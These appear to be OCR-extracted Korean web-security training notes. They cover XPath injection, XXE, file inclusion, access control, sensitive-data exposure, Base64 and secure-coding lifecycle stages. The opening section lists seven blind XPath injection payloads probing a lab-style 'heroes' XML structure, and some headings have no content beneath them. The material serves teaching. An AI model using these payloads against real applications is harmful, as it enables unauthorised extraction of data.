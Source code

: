 **Xpath injection**
```
neo' and count(../child::*)=6 or 'a'='b
neo' and string-length(name(parent::*))=6 or 'a'='b
neo' and substring(name(parent::*),1,1)='h' or 'a'='b
neo' and string-length(name(../child::*[position()=1]))=4 or 'a'='b
neo' and substring(name(../child::*[position()=1]),1,1)='h' or 'a'='b
neo' and string-length(name(/heroes/child::*))=4 or 'a'='b
neo' and string-length(name(//*))=6 or 'a'='b
```

---

### 기타 주요 웹 취약점 - XML 외부 엔티티 공격

---

### 기타 주요 웹 취약점 - 디렉터리 리스팅 파일 삽입

**기능 수준의 접근 통제 누락**
- 접근 통제와 확인이 서버의 설정이나 관리 측면에서 누락 시 발생
- 파일 업로드, LFI(Local File Inclusion), 파일 다운로드, RFI(Remote File Inclusion)

---

### 기타 주요 웹 취약점 - Base64 인코딩 복호화, HTML5 웹 저장소

**민감데이터 노출**
- C/S 통신 시 암호화 프로토콜(SSL)을 사용하여 중요한 정보를 보호
- 사용자의 민감한 정보 입력 시 암호화 후 저장(데이터 처리 및 암호화 저장은 서버 기반에서 실행)

**Base64 인코딩 복호화**
- 8bit 데이터를 64진수 문자셋으로 변환
- "="로 인코딩의 끝을 알림

---

### 시큐어코딩 진단 이해 - 시큐어코딩 진단 이해 (1)

**소스코드레벨 보안문제**
- 개발 보안성 검토부터 이해를 합시다.

**개발 단계 보안성 검토**
1) 투입 단계 : 개발자/담당자 보안가이드 교육
2) 요구사항/디자인 설계단계 : 설계단계 잠재적 취약점 검토
3) 개발 단계 : 시큐어코딩/보안공통모듈 검토
4) 개발 완료 : 모의해킹 진행(화이트박스, 블랙박스)
5) 서비스 오픈 : 이행점검 진행

1) 교육(훈련) 단계 : 핵심 보안 교육
2) 요구사항 단계 : 보안 요구사항 설정, 품질 제도 버그 기준들 수립, 보안 및 개인정보 위험 평가 수행
3) 디자인설계 단계 : 설계 요구 사항 수립, 공격 표면 분석 수행 및 감소, 위협 모델링 사용
4) 구현 단계 : 승인된 도구 사용, 안전하지 않은 함수 확인 / 제외, 정적 분석 수행
5) 검증 단계 : 동적 분석 수행, 퍼징 테스트 수행, 공격 표면 검토 실시
6) 배포 단계 : 사고 대응 계획 작성, 최종 보안 검토 실시, 배포(릴리즈) 교부 및 보관
7) 사후조치 단계 : 사고 대응 계획 실행
